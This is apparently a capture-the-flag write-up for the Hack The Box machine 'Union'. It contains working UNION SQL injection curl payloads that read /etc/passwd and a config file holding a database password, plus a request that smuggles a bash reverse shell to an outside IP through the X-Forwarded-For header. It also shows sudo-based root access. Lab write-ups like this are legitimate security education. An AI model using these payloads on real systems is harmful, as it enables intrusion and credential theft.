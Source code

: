 # Union

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.75
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:22 EDT
Nmap scan report for 10.129.96.75
Host is up (0.0088s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

The name implies I should be looking for some type of UNION SQL Injection somewhere...

### UNION Injection

This reveals a simple website that takes one user input:

<figure><img src="../../../.gitbook/assets/image (4) (3) (4).png" alt=""><figcaption></figcaption></figure>

If we enter anything, it says that we are eligible to compete in the tournament and gives us a link to `challenge.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (645).png" alt=""><figcaption></figcaption></figure>

Since this was a UHC box, `sqlmap` revealed nothing to me, so we have to do this manually. I tried some basic SQL Injection with UNION, and found that it was indeed vulnerable to SQL Injection:

```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select user(); -- -"
Sorry, uhc@localhost you are not eligible due to already qualifying.
```

So now we need to enumerate the database and grab the flag.:

{% code overflow="wrap" %}
```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(schema_name) from information_schema.schemata; -- -"
mysql,information_schema,performance_schema,sys,november

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(table_name) from information_schema.tables WHERE table_schema='november'; -- -"
flag,players

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(column_name) from information_schema.columns WHERE table_schema='november'; -- -"
one,player

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(one) from flag; -- -"
UHC{F1rst_5tep_2_Qualify}
```
{% endcode %}

Once we submit the flag, we have SSH access, but we still have no password.

<figure><img src="../../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

### SSH Creds

Since we still had UNION injection, we can use the `load_file` function to have LFI.&#x20;

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/etc/passwd'); -- -"
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<TRUNCATED>
```

First we need to identify what files are present on the site. I know that it is PHP-based, so let's start there.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.75 -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.75
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/05/08 11:38:12 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/firewall.php         (Status: 200) [Size: 13]
/index.php            (Status: 200) [Size: 1220]
/index.php            (Status: 200) [Size: 1220]
```

There's a `config.php` file, and we can read that:

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/var/www/html/config.php'); -- -"
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

With that, we can SSH into the machine.

<figure><img src="../../../.gitbook/assets/image (646).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Command Injection --> Sudo

There's another user on the machine:

```
uhc@union:/home$ ls -la
total 16
drwxr-xr-x 1 root root  12 Nov  8  2021 .
drwxr-xr-x 1 root root 164 Jul  2  2021 ..
drwxr-xr-x 1 htb  htb  158 Nov  8  2021 htb
drwxr-xr-x 1 uhc  uhc  108 Nov  8  2021 uhc
```

There isn't much that this user can access. So let's view the website files. The `firewall.php` file is the one that provided us with access to SSH, and it has some vulnerable code:

```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

```

This uses the `X-Forwarded-For` HTTP header variable and passes it directly into a command with `sudo`. Using this request, we can get another reverse shell as `www-data`.

```http
GET /firewall.php HTTP/1.1
Host: 10.129.96.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.96.75/challenge.php
Connection: close
X-Forwarded-For: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1";
Cookie: PHPSESSID=jg4bjv3vg5pol32mv1teq3i0pp
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

When checking our `sudo` privileges, this is what we see:

```
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
